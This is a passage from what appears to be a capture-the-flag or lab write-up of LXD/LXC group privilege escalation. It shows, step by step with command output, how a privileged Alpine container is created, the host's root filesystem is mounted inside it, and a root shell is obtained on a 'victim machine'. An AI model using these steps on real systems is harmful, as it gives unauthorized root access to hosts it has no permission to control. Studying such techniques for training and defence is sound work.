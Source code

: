 (13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages

Then we can transfer the file to the victim machine using wget.

We then import the image as follows (I'd already done it):

namelessone@anonymous:/tmp$ lxc image import alpine-v3.12-x86_64-20200825_2201.tar.gz --alias myimage
<e-v3.12-x86_64-20200825_2201.tar.gz --alias myimage
Error: Image with same fingerprint already exists

namelessone@anonymous:/tmp$ lxc image list
lxc image list
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|   ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| newalpine | b3913ffc9475 | no     | alpine v3.12 (20200825_22:01) | x86_64 | 3.04MB | Aug 26, 2020 at 2:05am (UTC) |
+-----------+--------------+--------+-------------------------------+--------+--------+------------------------------+

Now we shall initialise a new container called ignite, which is Security Privileged.

namelessone@anonymous:/tmp$ lxc init newalpine ignite -c security.privileged=true
<c init newalpine ignite -c security.privileged=true
Creating ignite

Now we're adding ignite to our device, path being /mnt/root:

namelessone@anonymous:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

Finally we are starting the container, and launching a shell:

namelessone@anonymous:/tmp$ lxc start ignite
lxc start ignite
namelessone@anonymous:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh

~ # ^[[45;5Rid
id
uid=0(root) gid=0(root)
